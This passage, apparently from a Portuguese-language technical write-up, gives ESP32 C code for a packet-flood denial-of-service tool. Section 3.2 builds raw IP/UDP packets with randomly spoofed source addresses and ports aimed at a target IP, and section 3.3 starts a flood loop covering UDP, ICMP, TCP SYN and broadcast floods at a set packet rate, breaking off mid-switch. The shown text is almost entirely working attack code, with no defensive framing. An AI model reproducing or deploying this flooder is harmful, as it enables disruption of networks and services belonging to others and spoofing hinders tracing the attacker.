 #### 3.2 Geração de Pacotes UDP
```c
void create_udp_flood_packet(uint8_t *buffer, size_t *packet_size) {
    ip_header_t *ip_hdr = (ip_header_t*)buffer;
    udp_header_t *udp_hdr = (udp_header_t*)(buffer + sizeof(ip_header_t));
    
    // Cabeçalho IP
    ip_hdr->version_ihl = 0x45;
    ip_hdr->tos = 0;
    ip_hdr->total_length = htons(sizeof(ip_header_t) + sizeof(udp_header_t) + PAYLOAD_SIZE);
    ip_hdr->id = htons(esp_random() & 0xFFFF);
    ip_hdr->flags_fragment = 0;
    ip_hdr->ttl = 64;
    ip_hdr->protocol = 17;  // UDP
    ip_hdr->src_ip = get_random_source_ip();
    ip_hdr->dst_ip = inet_addr(TARGET_IP);
    ip_hdr->checksum = 0;
    ip_hdr->checksum = calculate_ip_checksum(ip_hdr);
    
    // Cabeçalho UDP
    udp_hdr->src_port = htons(esp_random() % 65535);
    udp_hdr->dst_port = htons(esp_random() % 65535);
    udp_hdr->length = htons(sizeof(udp_header_t) + PAYLOAD_SIZE);
    udp_hdr->checksum = 0;
    
    // Payload aleatório
    uint8_t *payload = buffer + sizeof(ip_header_t) + sizeof(udp_header_t);
    for (int i = 0; i < PAYLOAD_SIZE; i++) {
        payload[i] = esp_random() & 0xFF;
    }
    
    *packet_size = sizeof(ip_header_t) + sizeof(udp_header_t) + PAYLOAD_SIZE;
}
```

#### 3.3 Engine de Flood Principal
```c
static void packet_flood_task(void *pvParameters) {
    uint8_t packet_buffer[MAX_PACKET_SIZE];
    size_t packet_size;
    uint32_t last_stats_time = 0;
    uint32_t packets_this_second = 0;
    
    ESP_LOGW(TAG, "🌊 INICIANDO PACKET FLOOD!");
    ESP_LOGW(TAG, "🎯 Alvo: %s", TARGET_IP);
    ESP_LOGW(TAG, "📦 Tipo: %s", get_flood_type_name(FLOOD_TYPE));
    ESP_LOGW(TAG, "⚡ Taxa alvo: %d pacotes/segundo", TARGET_PACKET_RATE);
    
    while (packets_sent < MAX_PACKETS && keep_flooding) {
        uint32_t current_time = xTaskGetTickCount() * portTICK_PERIOD_MS;
        
        // Gerar pacote baseado no tipo de flood
        switch (FLOOD_TYPE) {
            case FLOOD_TYPE_UDP:
                create_udp_flood_packet(packet_buffer, &packet_size);
                break;
            case FLOOD_TYPE_ICMP:
                create_icmp_flood_packet(packet_buffer, &packet_size);
                break;
            case FLOOD_TYPE_TCP_SYN:
                create_tcp_syn_packet(packet_buffer, &packet_size);
                break;
            case FLOOD_TYPE_BROADCAST:
                create_broadcast_packet(packet_buffer, &packet_size);
```